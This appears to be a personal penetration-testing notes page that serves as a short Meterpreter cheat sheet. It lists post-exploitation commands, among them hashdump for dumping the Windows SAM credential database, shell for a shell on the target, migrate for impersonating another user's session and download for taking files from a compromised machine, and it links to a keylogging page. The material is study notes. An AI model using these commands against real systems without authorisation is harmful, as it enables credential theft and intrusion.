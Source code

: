 # Meterpreter

{% embed url="https://docs.rapid7.com/metasploit/manage-meterpreter-and-shell-sessions/" %}

{% embed url="https://www.offsec.com/metasploit-unleashed/about-meterpreter/" %}

### Meterpreter

#### Useful commands:

1. `?`&#x20;

* View a list of available commands

2. `help`

* Displays the help menu

3. `background`

* Sends the current Meterpreter session into the background, and returns to the _msf_ prompt
* Use the `session -i` command to get back to the Meterpreter session

4. `cat`, `cd`, `pwd`, `ls`

* Similar to the Linux command line

5. `hashdump`

* Dumps the contents of the _**SAM**_ database
* The Security Accounts Manager (SAM) is a database file in Windows that contains usernames and passwords

6. `shell`

* Presents a standard shell on the target system

7. `ps`

* List running processes

Eg. Find all processes running [`explorer.exe`](https://jarrettgxz-sec.gitbook.io/windows/general/explorer.exe)&#x20;

```sh
meterpreter> ps | grep "explorer.exe"
```

8. `migrate`

* Migrate to another process
* Useful for impersonating another user session

9. `download`

* To download a file from the remote machine
* Note the use of the double-slashes in the Windows path

```sh
meterpreter> download c:\\users\test\file.txt
```

### Keylogger

{% embed url="https://www.offsec.com/metasploit-unleashed/keylogging/" %}
